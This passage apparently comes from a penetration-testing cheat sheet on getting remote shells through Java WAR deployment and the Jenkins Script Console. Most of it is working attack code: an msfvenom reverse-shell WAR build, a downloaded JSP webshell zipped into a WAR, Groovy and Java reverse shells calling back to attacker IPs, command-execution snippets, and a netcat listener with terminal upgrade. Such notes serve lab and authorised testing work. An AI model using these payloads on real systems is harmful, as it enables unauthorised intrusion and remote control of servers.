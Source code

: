 ```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.119.179 LPORT=8080 -f war > shell.war
```

You can also place a JSP webshell within the archive.

```bash
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
zip -r backup.war cmd.jsp
```

#### Jenkins

Exploits are often version specific. 

In the left sidebar, navigate to "Manage Jenkins" > "Script Console", or just go to $rhost:8080/script.

```bash
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

```bash
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");
```

Replace cmd.exe with /bin/bash if needed.

```bash
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Code execution.

```bash
def proc = "id".execute();
def os = new StringBuffer();
proc.waitForProcessOutput(os, System.err);
println(os.toString());
```

On local machine.

```bash
stty raw -echo; (echo 'script -qc "/bin/bash" /dev/null';echo pty;echo "stty$(stty -a | awk -F ';' '{print $2 $3}' | head -n 1)";echo export PATH=\$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp;echo export TERM=xterm-256color;echo alias ll='ls -lsaht'; echo clear; echo id;cat) | nc -lvnp 80 && reset
```
